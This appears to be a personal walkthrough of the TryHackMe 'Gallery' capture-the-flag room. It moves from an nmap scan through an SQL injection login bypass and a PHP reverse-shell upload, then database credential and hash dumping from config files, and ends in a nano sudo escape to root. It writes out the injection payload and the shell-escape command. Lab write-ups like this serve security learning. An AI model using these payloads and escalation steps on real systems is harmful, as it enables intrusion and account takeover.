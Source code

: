 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Gallery
# DESCRIPTION       . Try to exploit our image gallery system
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/gallery666
```

```
sudo nmap -sSVC -T5 -p- 10.10.102.136 -oN Gallery
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

#### PORT 80 

- This website hosts the default apache installation page ; I inspected only the soure code and there wasn't anything out of the ordinary.

#### PORT 8080

- We land on a login panel that reveals that the CMS used is called `Simple Image Gallery`. 

- I tried using the `admin:admin` default credentials but that didn't work. However, I decided to try some SQL Injection payloads and I was able to log in using `admin' or '1'='1'#` as username and whatever as password (even an empty string should work. )

- I quickly noticed the `Albums` page, with some already created. The `Upload` button seems to allow us to add images to the albums.

- However, I tried uploading the classic PHP reverse shell and I got a reverse shell after setting up my listener.

- Now that we're under `www-data`, I stabilised the shell and I took a look around the system ; 

```
www-data@gallery:/var/www/html/gallery$ cat /etc/passwd | grep home
```

```
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash
```

- `Mike` seems to be the only user on the system, and we probably need to escalate our privileges to `mike` first before attempting to get `root`. 

- Let's take a look at the CMS's config files. I went to `/var/www/html/Gallery` and did a `ls -l *`

- The following block of output got my attention.

```
classes:
total 36
-rwxr-xr-x 1 www-data www-data  731 Apr 23  2021 DBConnection.php
-rwxr-xr-x 1 www-data www-data 1383 Aug  9  2021 Login.php
-rwxr-xr-x 1 www-data www-data 9253 Aug 11  2021 Master.php
-rwxr-xr-x 1 www-data www-data 4723 Jun 28  2021 SystemSettings.php
-rwxr-xr-x 1 www-data www-data 5366 Aug  9  2021 Users.php
```

- Reading `DBConnection.php`, we find out that the credentials are defined in the `initialize.php` file from the root `Gallery` directory.

```
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da{REDACTED}','last_login'=>'','date_updated'=>'','date_added'=>'');


if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"{REDACTED}");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- There seems to be a developer account defined too, `dev_oretnom` with the hash from the above.

- I tried the credentials found above with mysql

```bash
mysql -u gallery_user -p
```

- After successfully logged in, I used the following commands to dump the hashes of the current users

```
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
```

```
SHOW TABLES;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
```

```
SELECT * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
```

- The admin hash is not relevant to us anymore, since we already got access to the CMS using SQL Injection. I was hoping that I find the credentials of mike here, too.

- This is when I decided to look around for usual privilege escalation vectors and backups on the system.

- During my search, I came across `/var/backups` directory that contains `mike_home_backup`. 

- Then, I tried my luck with `grep -ri "pass" .` and I there it was

```
./.bash_history:sudo -l{REDACTED}
./documents/accounts.txt:Netflix : mike@gmail.com:123456789pass
```

- As `mike`, we can run `(root) NOPASSWD: /bin/bash /opt/rootkit.sh` 

```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- Alright. For the options `versioncheck`, `update` and `list`, `/usr/bin/rkhunter` is executed as root ; 
- However, for `read` option, `/bin/nano` is executed instead. But `/bin/nano` can be used to escalate privileges to a root shell:

```
mike@gallery:/var/backups/mike_home_backup$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read

<CTRL + R>
<CTRL + X>

reset; sh 1>&0 2>&0

# whoami
root
```

- The user flag is in `/home/mike/user.txt`.
- The root flag is in `/root/root.txt`.

